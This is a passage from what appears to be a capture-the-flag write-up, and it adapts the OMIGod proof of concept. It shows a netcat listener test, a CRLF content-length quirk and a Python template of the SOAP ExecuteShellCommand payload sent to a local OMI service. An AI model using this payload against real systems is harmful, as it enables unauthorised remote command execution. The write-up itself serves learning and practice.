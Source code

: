 
It worked! There’s one trick to notice here that is important. If I run that
again and save the result to a file:

    
    
    oxdf@parrot$ nc -lnvp 5985 | tee test
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::5985
    Ncat: Listening on 0.0.0.0:5985
    Ncat: Connection from 127.0.0.1.
    Ncat: Connection from 127.0.0.1:42184.
    test
    ^C
    

Looking at that file, there’s a `0x0d0a` or `\r\n` on the end:

    
    
    oxdf@parrot$ xxd test 
    00000000: 7465 7374 0d0a                           test..
    

This is important because it means I need to add two bytes to the content
length or it will be off, which will break things (this took a bunch of
troubleshooting to figure out).

#### OMIGod POC

To get the OMIGod POC into this, I’ll grab the `DATA` variable from the POC,
replacing the command with `{}` to fill in later. I’ll also create a template
for a `REQUEST`, with content length and body to populate later (and the
`DATA` template truncated here with a `...[snip]...` for readability):

    
    
    DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" 
    ...[snip]...
    xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">    
             <p:command>{}</p:command>    
             <p:timeout>0</p:timeout>    
          </p:ExecuteShellCommand_INPUT>    
       </s:Body>    
    </s:Envelope>    
    """    
        
    REQUEST = """POST / HTTP/1.1\r
    Host: localhost:5985\r
    User-Agent: curl/7.74.0\r
    Content-Length: {length}\r
    Content-Type: application/soap+xml;charset=UTF-8\r
    \r
    {body}"""    
    

The HTTP headers need to have `\r\n` for each line, but Python on Linux only
treats newlines as `\n`, so I need to add the `\r`.
